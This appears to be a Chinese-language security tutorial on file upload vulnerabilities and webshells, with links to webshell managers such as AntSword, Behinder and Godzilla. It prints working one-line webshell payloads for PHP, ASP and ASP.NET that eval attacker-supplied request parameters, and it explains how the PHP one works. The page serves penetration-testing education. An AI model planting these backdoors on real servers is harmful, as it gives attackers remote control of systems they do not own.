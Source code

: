 # 文件上传漏洞

## WebShell简介

WebShell 简称网页后门, 是行在 Web 应用之上的远程控制程序. 

WebShell 其实就是一张网页, 由 PHP、JSP、ASP、ASP.NET 等这类 Web 应用程序语言开发, 但 WebShell 并不具备常见网页的功能, 例如登录、注册、信息展示等功能, 一般会具备文件管理、端口扫描、提权、获取系统信息等功能. 拥有较完整功能的 WebShell, 我们一般称为大马. 功能简易的 Webshell 称为小马. 除此之外还存在一句话木马、菜刀马、脱库马等名词, 是对于 WebShell 功能或者特性的简称。

### 一句话木马

#### php 一句话木马

```php
<?php @eval($_POST[x]); ?>
```

获取 POST 请求参数中 x 的值。例如 POST 请求中传递`x=phpinfo();` 那么`$_POST[x]`就等同于 `phpinfo();`

`eval()` 将字符串当作 PHP 代码执行。例如 `eval('phpinfo();'), 其中 `phpinfo();`会被当做PHP代码去执行。

`@` 是错误控制运算符，当放置在一个PHP表达式前时，该表达式产生的任何错误信息都被忽略掉。

#### ASP 一句话木马

```asp
<%eval request("x")%>
```

#### ASP.NET

```ASP
<%@ Page Language="Jscript"%><%eval(Request.Item["x"],"unsafe");%>
```

## WebShell管理工具

### 中国蚁剑

* [Github-加载器](https://github.com/AntSwordProject/AntSword-Loader)
* [Github-主程序](https://github.com/AntSwordProject/antSword)
* [官方文档](https://www.yuque.com/antswordproject/antsword)

中国蚁剑是一款开源的跨平台网站管理工具，也是一款WebShell管理工具，它主要面向于合法授权的渗透测试安全人员以及进行常规操作的网站管理员。中国蚁剑的核心代码模板均改自中国菜刀。

### 冰蝎

[Github](https://github.com/rebeyond/Behinder)

### 哥斯拉

[Github](https://github.com/BeichenDream/Godzilla)
